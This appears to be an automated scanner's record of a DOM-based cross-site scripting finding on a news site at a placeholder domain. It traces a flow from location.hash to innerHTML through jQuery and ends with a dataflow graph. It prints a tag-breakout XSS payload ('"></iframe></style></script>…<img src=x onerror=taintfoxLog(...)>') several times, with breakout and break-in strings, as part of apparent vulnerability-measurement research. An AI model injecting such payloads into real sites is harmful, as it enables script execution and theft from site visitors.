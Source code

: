 // Finding: 72ae2593-5387-4dab-b5e9-633276589f44
// Finding.url: https://www.example418.com/technology/council-bill-would-require-delivery-apps-share-data-restaurants#adunit_path=news/technology"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('7530c86163e94b8fa0812026c7d26e54')><!--/*
// Finding.parentloc: https://www.example418.com/technology/council-bill-would-require-delivery-apps-share-data-restaurants#adunit_path=news/technology"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog('7530c86163e94b8fa0812026c7d26e54')><!--/*
// Finding.domain: www.example418.com
// Finding.base_domain: example418.com
// Finding.source: location.hash
// Finding.sink: innerHTML
// Sanitizer.score: 3
// Sanitizer.name: html/<
// Sanitizer.location: https://detroit.example419.com/api/scripts/jquery.min.js - html/<:3:16001
// Finding.begin: 24839
// Finding.end: 24923
// Finding.original_uuid: e3f0b457-8dba-4e7c-acaa-c8f2f23330fd
// Finding.TwentyFiveMillionFlowsId: -532374414
// Finding.script: https://detroit.example419.com/api/scripts/jquery.min.js
// Finding.line: 3
// Exploit.uuid: 7530c861-63e9-4b8f-a081-2026c7d26e54
// Exploit.success: false
// Exploit.status: validated
// Exploit.method: C
// Exploit.type: html
// Exploit.token: attribute
// Exploit.content: data-dfp-unit
// Exploit.quote_type: "
// Exploit.tag: div
// Exploit.break_out: news/technology"></iframe></style></script></object></embed></textarea><img src=x onerror=
// Exploit.break_in: ><!--/*
// Exploit.payload: news/technology"></iframe></style></script></object></embed></textarea><img src=x onerror=taintfoxLog(1)><!--/*
// Exploit.begin_taint_url: 117
// Exploit.end_taint_url: 132
// Exploit.replace_begin_url: 117
// Exploit.replace_end_url: 132
// Exploit.replace_begin_param: 6186
// Exploit.replace_end_param: 6201
// Issues.LargestEncodeAttrStringChain: 1
// Issues.LargestTextFragmentEncodeChainLength: 0
// Issues.HasApproximation: false
// Issues.HasMissingImplementation: false
// Issues.HasInfiniteRegexWithFunctionReplacer: false
// Issues.MergedSplitAndJoins: false
// Issues.HasUrlInRhsOfReplace: false
// Issues.HasUrlInLhsOfReplace: false
// Issues.HasCookieValueInLhsOfreplace: false
// Issues.HasCookieValueInRhsOfreplace: false
// Issues.HasCookieValueInMatchPattern: false
// Issues.HasCookieValueInExecPattern: false
// Issues.RemovedLRConcats: false
// Issues.RemovedReplaceArtifacts: false
// Issues.HasUrlInMatchPattern: false
// Issues.HasUrlInExecPattern: false
// Issues.RemovedNOPreplaces: false
// Issues.Known_sanitizer: false
// DepGraph.hash: 1502365750
// DepGraph.sanitizer_hash: 1114219431
// Large chain of EncodeAttrString Operations (1) 
digraph cfg {
n0 [shape=house, label="Input: x"];
n1 [shape=ellipse, label="split"];
n2 [shape=box, label="Lit: ="];
n3 [shape=box, label="Var: x"];
n4 [shape=ellipse, label="."];
n5 [shape=box, label="Lit: /"];
n6 [shape=ellipse, label="."];
n7 [shape=box, label="Lit: /"];
n8 [shape=ellipse, label="encodeAttrString"];
n9 [shape=box, label="Var: x"];
n10 [shape=box, label="Var: x"];
n11 [shape=doubleoctagon, label="Return: x"];
n3 -> n0;
n1 -> n2;
n1 -> n3;
n4 -> n5;
n4 -> n1;
n6 -> n4;
n6 -> n7;
n9 -> n6;
n8 -> n9;
n10 -> n8;
n11 -> n10;
}